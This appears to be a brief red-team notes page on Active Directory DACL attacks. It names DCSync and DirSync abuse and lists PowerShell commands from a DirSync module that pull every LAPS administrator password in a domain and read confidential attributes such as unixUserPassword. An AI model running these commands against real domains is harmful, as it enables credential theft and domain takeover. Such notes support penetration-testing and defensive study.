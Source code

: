 # DACL Attacks on the domain/forest

## 1) DS-Replication-Get-Changes + DS-Replication-Get-Changes-All

DCSync Attack

## 2) DS-Replication-Get-Changes + DS-Replication-Get-Changes-In-Filtered-Set

DirSync Attack

Import-Module ./DirSync.psm1

##### Sync all the LAPS passwords in the domain

    Sync-LAPS

##### Sync a specific LAPS password

    Sync-LAPS -LDAPFilter '(samaccountname=<computer$>)'

##### Sync confidential attributs

    Sync-Attributes -LDAPFilter '(samaccountname=user1)' -Attributes unixUserPassword,description
